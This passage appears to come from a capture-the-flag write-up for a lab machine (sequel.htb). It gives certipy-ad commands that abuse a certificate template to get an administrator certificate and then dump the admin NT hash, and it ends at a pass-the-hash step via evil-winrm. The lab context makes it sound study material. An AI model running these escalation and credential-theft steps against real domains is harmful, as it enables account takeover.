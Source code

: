 #### Step 6: Getting verified

```bash
certipy-ad req -u ca_svc -hashes 'hash' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
	<SNIP>
[*] Saved certificate and private key to 'administrator_10.pfx'
```

<figure><img src="../.gitbook/assets/Pasted image 20250227202705.png" alt=""><figcaption></figcaption></figure>

#### Step 7: Dumping admin NT hash

```bash
certipy-ad auth -pfx administrator_10.pfx  -domain sequel.htb
```

<figure><img src="../.gitbook/assets/Pasted image 20250227202737.png" alt=""><figcaption></figcaption></figure>

#### Step 8: PtH through evilwin-rm
